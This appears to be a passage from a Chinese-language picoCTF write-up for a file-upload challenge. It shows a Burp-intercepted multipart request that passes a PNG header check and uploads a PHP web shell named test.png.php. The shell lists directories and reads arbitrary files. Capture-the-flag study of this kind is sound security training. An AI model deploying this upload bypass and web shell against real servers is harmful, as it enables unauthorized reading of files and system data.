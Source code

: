 可以看到他有一個`/uploads/`跟一個文件，那個上傳資料夾應該就是上傳後的檔案位置，那文件裡面的內容則是寫到上傳檔案的判斷依據。

![](/assets/img/Trickster3.png)

根據`instructions.txt`的說法，看來它只透過標頭去做判斷，接下來就是嘗試上傳一個正常的PNG檔案並用Burp把請求攔截下來，然後將檔案名稱改成php，內容改成想要的shell，底下附上我最後送出的上傳請求以及shell的內容，這支shell可以將目錄走訪直接做在畫面上，很方便

```php
POST / HTTP/1.1
Host: atlas.picoctf.net:60607
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------419861389234077765582180596946
Content-Length: 693
Origin: http://atlas.picoctf.net:60607
Connection: close
Referer: http://atlas.picoctf.net:60607/
Upgrade-Insecure-Requests: 1

-----------------------------419861389234077765582180596946
Content-Disposition: form-data; name="file"; filename="test.png.php"
Content-Type: image/png

PNG
<?

if($_GET['file']) {
	$fichero=$_GET['file']; 
	} else {
	$fichero="/";
	} 

if($handle = @opendir($fichero)) {
  while($filename = readdir($handle)) {
    echo "( ) <a href=?file=" . $fichero . "/" . $filename . ">" . $filename . "</a><br>";
    }
  closedir($handle);
  } else {
  echo "FILE: " . $fichero . "<br><hr><pre>";
  $fp = fopen($fichero, "r");
  $buffer = fread($fp, filesize($fichero));
  echo $buffer;
  fclose($fp);
  }

?>
-----------------------------419861389234077765582180596946--
```
